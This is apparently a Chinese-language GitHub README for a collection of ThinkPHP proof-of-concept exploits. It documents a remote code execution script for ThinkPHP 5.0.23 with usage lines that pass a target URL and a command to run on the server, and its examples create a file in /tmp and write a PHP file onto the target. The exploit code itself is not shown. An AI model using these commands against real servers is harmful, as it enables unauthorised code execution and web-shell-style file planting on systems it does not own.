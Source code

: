 # thinkphp-poc php thinkphp-poc集合
## thinkphp-5.0.23-rce.py thinkphp-5.0.23版本的 poc利用
### 使用说明
```
python thinkphp-5.0.2.3-rce.py -u [目标URL] -c [远程执行的命令]
// 使用示例
python thinkphp-5.0.23-rce.py -u http://10.0.0.135:8080/  -c "touch /tmp/bbb"
python thinkphp-5.0.23-rce.py -u http://10.0.0.135:8080/  -c "echo '<?php phpinfo(); ?>' > info.php"
```
